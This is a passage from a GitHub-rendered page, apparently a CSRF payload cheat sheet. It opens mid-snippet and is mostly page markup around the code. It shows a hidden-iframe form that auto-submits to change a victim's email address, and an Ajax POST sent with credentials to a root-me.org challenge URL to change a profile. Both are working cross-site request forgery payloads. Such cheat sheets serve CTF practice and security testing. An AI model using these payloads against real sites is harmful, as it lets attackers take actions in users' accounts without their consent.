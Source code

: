     &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style=&quot;display:none&quot; name=&quot;csrfframe&quot;></iframe> 
    <form action=&quot;/change-email&quot; id=&quot;csrfform&quot; target=&quot;csrfframe&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; autofocus onfocus=&quot;csrfform.submit();&quot; />
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-ajax-post-request" class="anchor" aria-hidden="true" href="#ajax-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Ajax POST request</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;script&gt;
var xh;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject("Microsoft.XMLHTTP");
  }
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&amp;status=on");
&lt;/script&gt;
